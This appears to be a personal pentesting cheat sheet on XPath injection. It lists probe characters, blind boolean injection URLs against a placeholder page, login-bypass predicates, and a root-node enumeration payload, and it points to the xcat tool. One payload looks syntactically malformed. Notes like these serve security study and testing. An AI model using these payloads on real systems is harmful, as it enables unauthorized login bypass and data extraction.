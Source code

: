 # Simple checks for vulnerable XPATH

### Check if there is any behavioral difference in the responses
```
You could use ' (apostrophe) or , (Comma)
```

Apostrophe used as string terminator

Comma used to break intergers, althorugh any character would work

```
http://<website>/vulnpage.php?countryID=a'
```

### Blind bolean injection
You can check if there is a valid injection by checking with commands if there is no error messages. You can check whenether you get a valid response back or not depending on if it's TRUE or FALSE
```
## TRUE 
http://<website>/vulnpage.php?countryID=999999 or 1=1
http://<website>/vulnpage.php?countryID=999999 or "2" or "2"
## FALSE
http://<website>/vulnpage.php?countryID=999999 or 1=2
http://<website>/vulnpage.php?countryID=999999 or "1"="2"
## Double or (to bypass when not nothing username and password is required)
//<someNode>[username='' or "1"="1" or "1"="1" and password='']
## Password injection parameter.
//<someNode>[username='' and password='' or "1"="1"]
```

### Finding Root Node Identifier

```bash
' or substring(name(/*[*))'
```

# Enumerate Blind Bolean injections with xcat
You can see here how to use xcat (Tool for injection auto blind bolean to extract) 

[[Xcat]]

### Useful XPath statements
![[Pasted image 20220217090452.png]]